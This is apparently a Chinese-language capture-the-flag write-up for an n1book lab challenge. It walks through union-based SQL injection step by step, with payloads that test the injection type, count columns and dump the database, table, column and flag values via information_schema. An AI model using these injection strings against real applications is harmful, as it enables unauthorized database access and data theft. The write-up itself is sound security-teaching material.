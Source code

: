 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{union_select_is_so_cool}`

## 思路
1. 首先判断是字符注入还是数字注入，`-- -`和`#`可以将后面的语句注释掉，此处`#`无效
`id=1 and 1=2 -- -`与`id=1`界面相同，证明不是数字注入
`id=1' and 1=2-- -`与`id=1`界面不同，证明是字符注入
2. 接着判断有数据表有3个字段（column）
`id=1' union select 1,2,3 -- -`与`id=1`界面相同
`id=1' union select 1,2,3,4 -- -`与`id=1`界面不同
也可用`id=1' order by 3 -- -`与`id=1' order by 4 -- -`的差异判断有三列数据
3. 获取数据库名**note**
`id=-1' union select 1,database(),3 -- -`
4. 获取数据表名**fl4g**、**notes**
`id=-1' union select 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='note' -- -`
5. 获取字段名**fllllag**
`id=-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='fl4g' -- -`
6. 获取**flag**
`id=-1' union select 1,group_concat(fllllag),3 FROM fl4g -- -`

## 总结
- union select左右两边必须拥有相同数量的列
- 在思路1-6中，1-2为`id=1`,3-6为`id=-1`的原因是1-2只需要判断，不需要展示值；3-6需要将union select获得的值展示出来。
- **如果id=1，union select获得的值将无法展示出来**
- 以思路3为例
    - 当id=1时
    ![](./images/sql1-1.png)
    - 当id=-1时，展示出数据库名note
    ![](./images/sql1-2.png)
